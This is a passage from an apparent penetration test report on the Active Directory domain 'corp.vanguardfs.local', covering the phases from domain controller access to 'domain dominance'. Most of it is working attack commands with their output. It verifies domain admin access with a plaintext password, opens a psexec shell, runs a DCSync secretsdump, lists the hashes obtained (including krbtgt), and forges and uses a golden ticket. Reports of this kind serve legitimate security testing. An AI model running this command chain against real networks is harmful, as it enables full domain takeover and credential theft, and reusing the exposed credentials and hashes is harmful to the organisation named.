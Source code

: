 **Result:** User `dadmin` confirmed as member of **Domain Admins**

#### 2.4.2 Domain Controller Access

**Method: Domain Admin Credentials**

```bash
# Verify domain admin access
crackmapexec smb 10.50.2.11 -u dadmin -p 'NewComplex!Pass2024'
crackmapexec smb 10.50.2.10 -u dadmin -p 'NewComplex!Pass2024'

# Results: 
# 10.50.2.11 (VFS-DC-02) - Pwn3d!
# 10.50.2.10 (VFS-DC-01) - Pwn3d!

# Obtain shell on primary DC
impacket-psexec corp.vanguardfs.local/dadmin:'NewComplex!Pass2024'@10.50.2.11
```

**DCSync Attack:**

```bash
# Extract all domain credentials
impacket-secretsdump -just-dc-ntlm corp.vanguardfs.local/dadmin:'NewComplex!Pass2024'@10.50.2.11

# Critical hashes obtained:
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8a3d2e9c7f1b4a6d5c8e0f9a7b6c5d4e:::
# dadmin:1104:aad3b435b51404eeaad3b435b51404ee:91f34b12cd98fea12d34ae67bf89cd01:::
```

### 2.5 Phase 5: Domain Dominance

**Golden Ticket Creation (Proof of Concept - Not Deployed)**

```bash
# Using extracted krbtgt hash
impacket-ticketer -nthash 8a3d2e9c7f1b4a6d5c8e0f9a7b6c5d4e -domain-sid S-1-5-21-3842547281-2943729470-1294839502 -domain corp.vanguardfs.local administrator

# Export ticket
export KRB5CCNAME=/root/administrator.ccache

# Use golden ticket (demonstration only)
impacket-psexec -k -no-pass corp.vanguardfs.local/administrator@vfs-dc-02.corp.vanguardfs.local
```

**Note:** All persistence mechanisms were documented and demonstrated in isolated environment only. No actual persistence was deployed in the test environment.

---

**END OF PART 1**

**Continue to Part 2 for:**
- Complete Findings & Vulnerabilities Analysis
- Remediation Strategy
- Detection & Monitoring Recommendations
- Compliance Mapping
- Appendices & Evidence Repository
